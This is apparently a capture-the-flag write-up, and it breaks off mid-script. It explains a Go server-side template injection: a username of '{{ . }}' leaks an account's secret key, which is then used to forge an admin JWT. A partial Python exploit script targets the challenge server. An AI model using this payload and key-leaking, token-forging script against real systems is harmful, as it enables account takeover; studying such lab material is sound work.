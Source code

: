 ```Go
func root_handler(w http.ResponseWriter, r *http.Request) {
	token := r.Header.Get("X-Token")
	if token != "" {
		id, _ := jwt_decode(token)
		acc := get_account(id)
		tpl, err := template.New("").Parse("Logged in as " + acc.id)
		if err != nil {
		}
		tpl.Execute(w, &acc)
	} else {

		return
	}
}
```
However, an SSTI vulnerability occurs in the index. This is because the ID value is passed raw to the template engine. Here, if a payload such as `{{ . }}` is used, the values of all elements of the currently logged in user can be output.

```Go
type Account struct {
	id         string
	pw         string
	is_admin   bool
	secret_key string
}
```
Since the structure of Account is the same as above, you can have the secret_key by using the SSTI vulnerability. So just leak secret_token, set is_admin of JWT to true and generate token. And you can use that token to get the flag.

```python
import requests
import jwt

CHALL_URL = "http://34.146.226.125"
#CHALL_URL = "http://localhost:11000"

USERNAME = "{{  .      }}"
PASSWORD = "dummy"
SESSION = requests.Session()
def REGIST(ID, PW):
    data = {'id':ID, 'pw':PW}
    try:
        res = SESSION.post(CHALL_URL + '/regist', data=data).json()
        if res['status'] == True:
            print(f'[+] Register Success : {ID}')
        else:
            print('[+] 500 Inter Server Error')
    except:
        print('[+] 500 Inter Server Error')

def LOGIN(ID, PW):
    data = {'id':ID, 'pw':PW}  
    try:
        res = SESSION.post(CHALL_URL + '/auth', data=data).json()
        if res['status'] == True:
            token = res['token']
            print(f'[+] TOKEN : {token}')
            header = {'X-Token':token}
            SECRET_KEY = SESSION.get(CHALL_URL, headers=header).text.split('false ')[1].replace('}', '')
            return SECRET_KEY
        else:
```